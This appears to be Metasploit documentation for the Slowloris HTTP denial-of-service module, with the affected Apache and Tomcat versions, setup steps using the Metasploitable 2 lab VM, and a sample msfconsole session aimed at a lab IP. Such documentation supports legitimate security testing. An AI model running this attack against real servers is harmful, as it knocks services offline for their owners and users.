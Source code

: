 ## Vulnerable Application

This module tries to keep many connections to the target web server open and hold them open as long as possible.

Vulnerable app versions include:

- Apache HTTP Server 1.x and 2.x
- Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

Download the Metasploitable 2 vulnerable Linux virtual machine from [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/dos/http/slow_loris
3. Do: set RHOST
4. Do: run
5. Visit server URL in your web-browser.

## Scenarios

### Apache/2.2.8 - Ubuntu 8.04

```
msf > use auxiliary/dos/http/slow_loris.rb
msf auxiliary(slow_loris) > show options 

Module options (auxiliary/dos/http/slow_loris):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.216.129  yes       The target address
   RPORT    80               yes       The target port (TCP)
   THREADS  5000             yes       The number of concurrent threads
   TIMEOUT  60               yes       The maximum time in seconds to wait for each request to finish

msf auxiliary(slow_loris) > set RHOST 192.168.216.129
RHOST => 192.168.216.129
msf auxiliary(slow_loris) > run

[*] 192.168.216.129:80 - Executing requests 1 - 5000...

```
